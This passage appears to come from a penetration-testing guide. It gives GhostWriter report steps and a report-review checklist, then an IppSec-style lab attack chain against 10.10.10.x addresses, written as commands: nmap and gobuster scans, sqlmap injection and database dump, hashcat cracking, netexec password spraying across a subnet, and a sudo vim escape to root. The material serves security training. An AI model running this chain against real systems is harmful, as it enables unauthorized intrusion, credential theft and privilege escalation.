 **Report Generation**
```bash
# 1. In GhostWriter: Project → Generate Report
# 2. Select template
# 3. Choose findings to include
# 4. Preview before export
# 5. Export as .docx
```

**Final Review**
- Read executive summary (non-technical language?)
- Verify all technical details accurate
- Check spelling/grammar
- Ensure findings ordered by severity
- Verify all screenshots load properly
- Final export and submit
---

## Real-World Tool Chaining Examples

### Example 1: Web App → Database → Lateral Movement

**IppSec's systematic approach:**

```bash
# 1. nmap discovers HTTP (port 80)
nmap -p- -sV 10.10.10.50

# 2. gobuster finds admin panel
gobuster dir -u http://10.10.10.50 -w /usr/share/wordlists/dirb/common.txt

# 3. SQL injection in admin login
sqlmap -u "http://10.10.10.50/admin/login.php" --forms --batch --dbs

# 4. Dump credentials from database
sqlmap -u "http://10.10.10.50/admin/login.php" -D webapp -T users --dump

# 5. Extract: admin:$2y$10$hash (bcrypt)
hashcat -m 3200 hash.txt /usr/share/wordlists/rockyou.txt

# 6. Cracked: admin:Welcome2024!

# 7. Test password EVERYWHERE
netexec ssh 10.10.10.0/24 -u admin -p 'Welcome2024!'
netexec smb 10.10.10.0/24 -u admin -p 'Welcome2024!'
# → Works on 10.10.10.60 (database server)

# 8. SSH to database server
ssh admin@10.10.10.60

# 9. Check sudo
sudo -l
# → (ALL : ALL) NOPASSWD: /usr/bin/vim

# 10. GTFOBins vim exploit
sudo vim -c ':!/bin/sh'

# 11. Now root on database server!
```
